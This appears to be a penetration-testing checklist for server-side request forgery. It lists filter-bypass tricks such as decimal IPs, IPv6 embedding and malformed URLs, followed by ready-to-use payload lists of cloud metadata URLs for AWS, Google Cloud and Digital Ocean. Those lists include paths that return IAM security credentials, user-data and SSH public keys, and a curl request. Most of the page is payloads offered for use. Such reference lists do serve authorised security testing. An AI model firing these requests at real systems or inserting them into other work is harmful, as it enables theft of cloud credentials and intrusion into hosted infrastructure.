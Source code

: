         
    - [ ] Try basic localhost payloads
        
    - Bypassing filters
        
        - [ ] Bypass using HTTPS
        - [ ] Bypass with [::]
        - [ ] Bypass with a domain redirection
        - [ ] Bypass using a decimal IP location
        - [ ] Bypass using IPv6/IPv4 Address Embedding
        - [ ] Bypass using malformed urls
        - [ ] Bypass using rare address(short-hand IP addresses by dropping the zeros)
        - [ ] Bypass using enclosed alphanumerics
    - Cloud Instances
        
        - AWS
            
            ```markup
            <http://instance-data>
            <http://169.254.169.254>
            <http://169.254.169.254/latest/user-data>
            <http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
            <http://169.254.169.254/latest/meta-data/>
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance>
            <http://169.254.169.254/latest/meta-data/ami-id>
            <http://169.254.169.254/latest/meta-data/reservation-id>
            <http://169.254.169.254/latest/meta-data/hostname>
            <http://169.254.169.254/latest/meta-data/public-keys/>
            <http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
            <http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy>
            <http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access>
            <http://169.254.169.254/latest/dynamic/instance-identity/document>
            ```
            
        - Google Cloud
            
            ```markup
            <http://169.254.169.254/computeMetadata/v1/>
            <http://metadata.google.internal/computeMetadata/v1/>
            <http://metadata/computeMetadata/v1/>
            <http://metadata.google.internal/computeMetadata/v1/instance/hostname>
            <http://metadata.google.internal/computeMetadata/v1/instance/id>
            <http://metadata.google.internal/computeMetadata/v1/project/project-id>
            ```
            
        - Digital Ocean
            
            ```markup
            curl <http://169.254.169.254/metadata/v1/id>
            <http://169.254.169.254/metadata/v1.json>
            <http://169.254.169.254/metadata/v1/> 
            <http://169.254.169.254/metadata/v1/id>
            <http://169.254.169.254/metadata/v1/user-data>
            <http://169.254.169.254/metadata/v1/hostname>
            <http://169.254.169.254/metadata/v1/region>
            <http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>
            ```
            
